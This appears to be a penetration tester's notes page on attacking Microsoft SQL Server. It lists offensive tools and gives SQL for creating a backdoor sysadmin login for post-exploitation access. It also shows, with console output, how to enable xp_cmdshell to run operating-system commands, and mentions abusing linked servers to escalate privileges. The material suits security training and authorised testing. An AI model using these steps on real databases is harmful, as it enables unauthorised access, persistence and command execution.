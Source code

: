 # MS-SQL Databases

MS-SQL or SQL Server is Microsoft's offering of an SQL Database. The syntax and model is quite similar to standard SQL with the benefit of being able to hook directly into offerings such as Windows Active Directory and interface with the Windows operating system. It is some of these features however that can allow us to get a strong foothold on a device.

There's a lot of fantastic tools and resources designed specifically for dealing with MS-SQL:

* [PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)- An enumeration and privilege escalation tool for MS-SQL in Powershell
* [msdat ](https://github.com/quentinhardy/msdat)- Microsoft SQL Database attacking tool
* [NetSPI Blog](https://blog.netspi.com/)
* [MS-SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Connecting

There are multiple ways to interface with an MS-SQL server.  If on Linux then I'd recommend using [sqsh](https://sourceforge.net/projects/sqsh/), as it's simple and allows you to quickly create commands:

```bash
sqsh -S 192.168.0.6 -U sa
```

However, I'd strongly recommend setting up a Windows VM and using [SQL Management Server](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-2017), as it allows you to quickly create scripts for enumeration and offers a graphical view for enumerating the database which can make extracting information much quicker.

## User Creation

For creating a sysadmin user to enable easy access to the database post-exploitation, we'll need to create a login and associated user for SQL authentication. We can then assign this user sysadmin privileges.

```sql
CREATE LOGIN booj WITH PASSWORD = 'B00j123!'
CREATE USER booj for LOGIN booj
EXEC sp_addsrvrolemember @loginame = N'booj', @rolename = N'sysadmin'
```

## xp\_cmdshell

It's easy to execute commands on the host operating system as the service account using xp\_cmdshell.  By default this is unfortunately disabled, and to re-enable and use it the SQL accounts requires sysadmin level privileges.

```sql
1> exec sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0)
1> reconfigure
2> go
1> exec sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/) They're not hard to pull off and can allow you to escalate your permissions quite easily. However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.

